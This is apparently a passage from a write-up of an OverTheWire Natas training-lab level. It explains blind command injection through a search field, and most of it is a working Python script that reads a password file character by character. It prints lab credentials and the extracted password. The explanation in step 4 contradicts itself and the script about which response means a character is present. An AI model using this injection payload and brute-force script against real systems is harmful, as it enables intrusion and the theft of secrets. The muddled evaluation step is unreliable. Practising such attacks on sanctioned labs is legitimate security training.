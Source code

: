 3. **Injection Strategy:**
    To check for the existence of a character (e.g., "b") in the natas17 file, the user can construct the command $(grep b /etc/natas_webpass/natas17)Africans. This command translates to grep -i $(grep b /etc/natas_webpass/natas17)Africans dictionary.txt in the backend. If "b" is found, the inner command returns "b," leading to a search for "bAfricans." If "b" is absent, the inner command is empty, and the search falls back to just "Africans."

4. **Evaluation:**
    The response depends on whether "b" exists in the natas17 file. If "b" is present, a result will be returned for "bAfricans." If not, the result for "Africans" will be empty, indicating that "b" is indeed in the file.

5. **Automating the Process:**
    To automate the process, a Python script can be used to iterate through the character set and determine the password character by character. After this, we can use regex to extract the password from the response.
    ```python
    import requests
    from requests.auth import HTTPBasicAuth

    auth = HTTPBasicAuth("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

    filteredchars = ""
    passwd = ""
    allchars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"
    for char in allchars:
        r = requests.get(
            "http://natas16.natas.labs.overthewire.org/?needle=dooms$(grep "
            + char
            + " /etc/natas_webpass/natas17)",
            auth=auth,
        )

        if "dooms" not in r.text:
            filteredchars = filteredchars + char
            print(filteredchars)

    for i in range(32):
        for char in filteredchars:
            r = requests.get(
                "http://natas16.natas.labs.overthewire.org/?needle=dooms$(grep ^"
                + passwd
                + char
                + " /etc/natas_webpass/natas17)",
                auth=auth,
            )

            if "dooms" not in r.text:
                passwd = passwd + char
                print(passwd)
                break
    ```


#### Password: `EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`

---